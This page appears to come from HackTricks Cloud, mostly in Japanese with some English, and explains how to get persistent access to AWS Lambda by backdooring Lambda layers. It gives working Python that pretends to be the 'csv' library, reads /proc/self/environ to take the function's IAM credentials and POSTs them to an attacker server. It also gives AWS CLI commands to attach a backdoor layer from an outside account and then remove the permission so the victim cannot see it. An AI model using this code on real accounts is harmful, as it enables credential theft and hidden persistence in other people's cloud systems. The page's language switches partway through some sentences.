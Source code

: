 # AWS - Lambda Layers Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Lambda Layers

Lambdaレイヤーは、**追加のコード**やその他のコンテンツを含むことができる.zipファイルアーカイブです。レイヤーにはライブラリ、[カスタムランタイム](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-custom.html)、データ、または設定ファイルを含めることができます。

**関数ごとに最大五つのレイヤーを含めることができます**。関数にレイヤーを含めると、**内容は実行環境の`/opt`**ディレクトリに抽出されます。

**デフォルトでは、作成した**レイヤーはあなたのAWSアカウントに**プライベート**です。レイヤーを他のアカウントと**共有**するか、レイヤーを**公開**することを選択できます。あなたの関数が別のアカウントが公開したレイヤーを使用する場合、レイヤーが削除された後や、レイヤーへのアクセス権が取り消された後でも、関数は**レイヤーのバージョンを使用し続けることができます**。ただし、削除されたレイヤーバージョンを使用して新しい関数を作成したり、関数を更新したりすることはできません。

コンテナイメージとしてデプロイされた関数はレイヤーを使用しません。代わりに、イメージをビルドする際に、好みのランタイム、ライブラリ、およびその他の依存関係をコンテナイメージにパッケージします。

### Python load path

LambdaでPythonが使用するロードパスは次のとおりです:
```
['/var/task', '/opt/python/lib/python3.9/site-packages', '/opt/python', '/var/runtime', '/var/lang/lib/python39.zip', '/var/lang/lib/python3.9', '/var/lang/lib/python3.9/lib-dynload', '/var/lang/lib/python3.9/site-packages', '/opt/python/lib/python3.9/site-packages']
```
チェックしてみてください、**第二**および第三の**位置**は、**lambda layers**がファイルを解凍するディレクトリで占められています: **`/opt/python/lib/python3.9/site-packages`** および **`/opt/python`**

{% hint style="danger" %}
もし攻撃者が使用されているlambda **layer**に**バックドア**を仕掛けたり、**一般的なライブラリが読み込まれたときに任意のコードを実行する**ものを**追加**した場合、彼は各lambda呼び出しで悪意のあるコードを実行できるようになります。
{% endhint %}

したがって、要件は次のとおりです:

* **被害者のコード**によって**読み込まれるライブラリ**を**確認**する
* **カスタムコードを実行し、元の**ライブラリを**読み込む**ための**lambda layers**を持つ**プロキシライブラリを作成する。

### プリロードされたライブラリ

{% hint style="warning" %}
この技術を悪用する際に、私は困難に直面しました: 一部のライブラリは、あなたのコードが実行されるときに**すでに読み込まれている**のです。私は`os`や`sys`のようなものを見つけることを期待していましたが、**`json`ライブラリさえも読み込まれていました**。\
この永続性技術を悪用するためには、コードが実行されるときに**読み込まれていない新しいライブラリを読み込む**必要があります。
{% endhint %}

このようなpythonコードを使えば、lambda内のpythonランタイムに**プリロードされたライブラリのリスト**を取得することが可能です:
```python
import sys

def lambda_handler(event, context):
return {
'statusCode': 200,
'body': str(sys.modules.keys())
}
```
そして、これは**リスト**です（`os`や`json`のようなライブラリがすでに存在することを確認してください）
```
'sys', 'builtins', '_frozen_importlib', '_imp', '_thread', '_warnings', '_weakref', '_io', 'marshal', 'posix', '_frozen_importlib_external', 'time', 'zipimport', '_codecs', 'codecs', 'encodings.aliases', 'encodings', 'encodings.utf_8', '_signal', 'encodings.latin_1', '_abc', 'abc', 'io', '__main__', '_stat', 'stat', '_collections_abc', 'genericpath', 'posixpath', 'os.path', 'os', '_sitebuiltins', 'pwd', '_locale', '_bootlocale', 'site', 'types', 'enum', '_sre', 'sre_constants', 'sre_parse', 'sre_compile', '_heapq', 'heapq', 'itertools', 'keyword', '_operator', 'operator', 'reprlib', '_collections', 'collections', '_functools', 'functools', 'copyreg', 're', '_json', 'json.scanner', 'json.decoder', 'json.encoder', 'json', 'token', 'tokenize', 'linecache', 'traceback', 'warnings', '_weakrefset', 'weakref', 'collections.abc', '_string', 'string', 'threading', 'atexit', 'logging', 'awslambdaric', 'importlib._bootstrap', 'importlib._bootstrap_external', 'importlib', 'awslambdaric.lambda_context', 'http', 'email', 'email.errors', 'binascii', 'email.quoprimime', '_struct', 'struct', 'base64', 'email.base64mime', 'quopri', 'email.encoders', 'email.charset', 'email.header', 'math', '_bisect', 'bisect', '_random', '_sha512', 'random', '_socket', 'select', 'selectors', 'errno', 'array', 'socket', '_datetime', 'datetime', 'urllib', 'urllib.parse', 'locale', 'calendar', 'email._parseaddr', 'email.utils', 'email._policybase', 'email.feedparser', 'email.parser', 'uu', 'email._encoded_words', 'email.iterators', 'email.message', '_ssl', 'ssl', 'http.client', 'runtime_client', 'numbers', '_decimal', 'decimal', '__future__', 'simplejson.errors', 'simplejson.raw_json', 'simplejson.compat', 'simplejson._speedups', 'simplejson.scanner', 'simplejson.decoder', 'simplejson.encoder', 'simplejson', 'awslambdaric.lambda_runtime_exception', 'awslambdaric.lambda_runtime_marshaller', 'awslambdaric.lambda_runtime_client', 'awslambdaric.bootstrap', 'awslambdaric.__main__', 'lambda_function'
```
And this is the list of **libraries** that **lambda includes installed by default**: [https://gist.github.com/gene1wood/4a052f39490fae00e0c3](https://gist.github.com/gene1wood/4a052f39490fae00e0c3)

### Lambda Layer Backdooring

In this example lets suppose that the targeted code is importing **`csv`**. We are going to be **backdooring the import of the `csv` library**.

For doing that, we are going to **create the directory csv** with the file **`__init__.py`** on it in a path that is loaded by lambda: **`/opt/python/lib/python3.9/site-packages`**\
Then, when the lambda is executed and try to load **csv**, our **`__init__.py` file will be loaded and executed**.\
This file must:

* Execute our payload
* Load the original csv library

We can do both with:
```python
import sys
from urllib import request

with open("/proc/self/environ", "rb") as file:
url= "https://attacker13123344.com/" #Change this to your server
req = request.Request(url, data=file.read(), method="POST")
response = request.urlopen(req)

# Remove backdoor directory from path to load original library
del_path_dir = "/".join(__file__.split("/")[:-2])
sys.path.remove(del_path_dir)

# Remove backdoored loaded library from sys.modules
del sys.modules[__file__.split("/")[-2]]

# Load original library
import csv as _csv

sys.modules["csv"] = _csv
```
Then, create a zip with this code in the path **`python/lib/python3.9/site-packages/__init__.py`** and add it as a lambda layer.

You can find this code in [**https://github.com/carlospolop/LambdaLayerBackdoor**](https://github.com/carlospolop/LambdaLayerBackdoor)

The integrated payload will **最初に呼び出されたとき、またはlambdaコンテナのリセット後にIAMクレデンシャルをサーバーに送信します**（コードの変更またはコールドlambda）、しかし**他の技術**も以下のように統合される可能性があります：

{% content-ref url="../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md" %}
[aws-warm-lambda-persistence.md](../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md)
{% endcontent-ref %}

### External Layers

Note that it's possible to use **外部アカウントからのlambdaレイヤー**。さらに、lambdaは**権限がなくても外部アカウントのレイヤーを使用できます**。\
Also note that the **lambdaが持てるレイヤーの最大数は5です**。

Therefore, in order to improve the versatility of this technique an attacker could:

* ユーザーの既存のレイヤーにバックドアを仕掛ける（外部のものは何もない）
* **自分のアカウントに** **レイヤー**を**作成**し、**被害者アカウントにレイヤーを使用するアクセスを与え**、**被害者のLambdaにレイヤーを** **設定**し、**権限を削除**する。
* **Lambda**は**レイヤーを使用し続け**、**被害者は** **レイヤーのコードをダウンロードする簡単な方法を持たない**（lambda内でrevシェルを取得することを除いて）
* 被害者は**`aws lambda list-layers`**で使用されている外部レイヤーを**見ることができない**。

{% code overflow="wrap" %}
```bash
# Upload backdoor layer
aws lambda publish-layer-version --layer-name "ExternalBackdoor" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"

# Give everyone access to the lambda layer
## Put the account number in --principal to give access only to an account
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion

## Add layer to victims Lambda

# Remove permissions
aws lambda remove-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1
```
{% endcode %}

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}
